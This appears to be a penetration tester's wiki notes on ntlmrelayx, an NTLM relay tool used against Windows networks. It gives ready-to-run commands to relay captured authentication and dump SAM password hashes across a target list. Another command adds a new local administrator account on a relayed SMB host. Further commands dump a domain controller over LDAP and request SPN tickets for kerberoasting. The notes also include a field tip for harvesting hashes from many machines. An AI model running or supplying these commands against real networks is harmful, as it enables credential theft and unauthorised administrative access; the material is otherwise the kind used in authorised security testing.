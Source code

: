 <!-- TITLE: Ntlmrelayx -->
<!-- SUBTITLE: A quick summary of Ntlmrelayx -->

# Wish
Would be nice to be able to specify only certain users to be relayed (domain admins only).
Perhaps blacklist IPs on responder.
Would be nice to keep state (which users have been tried against which boxes, so you cover more targets, and make the most of rare hashes).

# Note that as of this writing it uses python 2.7.18
use pipenv to install in a clean env

# Highly recommend a target file
Previous test had a high privilege user making a ton of connections and got sams from many boxes at once.  Had I hit only one I'd have only gotten one.  
# Common Usages
## No Arguments defaults to dumping SAM
```
ntlmrelayx.py -tf targets -w --no-http-server -smb2support
-tf uses a target file instead of one target
-w means to watch the target file in case it changes.
Targetfile should be ldap://ip   smb://ip  https://ip etc
```

## Run a Command
```
ntlmrelayx.py -t smb://192.168.10.102 -c 'net user newname passw0rd /add; net localgroup Administrators nename /add'
```

## LDAP Dump of domain
```
ntlmrelayx.py -t ldap://ip_of_domain_controller
```

## Looks like it supports socks server of some sort.  Not sure about this one.

## GetUserSPNs - prep for kerberoasting
```
I don't see how to add hashes/auth here but it has to happen.
GetUserSPNs.exe -request -dc-ip <ip> username -outputfile TGStickets
```


